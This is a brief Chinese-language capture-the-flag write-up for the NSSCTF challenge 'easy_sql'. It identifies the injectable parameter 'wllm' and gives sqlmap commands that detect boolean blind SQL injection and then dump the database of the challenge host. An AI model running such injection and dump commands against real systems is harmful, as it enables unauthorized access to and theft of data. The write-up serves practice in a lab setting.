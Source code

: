 
## [SWPUCTF 2021 新生赛]easy_sql

https://www.nssctf.cn/problem/387

* 考点：sql注入
* 工具：sqlmap

进入题目的网页后可以发现网页标题已经告诉了你注入的参数是 `wllm`，所以接下来可以直接使用 `sqlmap`扫描尝试注入

```shell
python .\sqlmap.py -u http://node7.anna.nssctf.cn:29274/index.php?wllm=1
```

![](./img/easysql_sqlmap扫描结果.png)

根据扫描结果可知存在 `bool盲注`，直接使用--dump参数查看数据库内容

```shell
python .\sqlmap.py -u http://node7.anna.nssctf.cn:29274/index.php?wllm=1 --dump
```
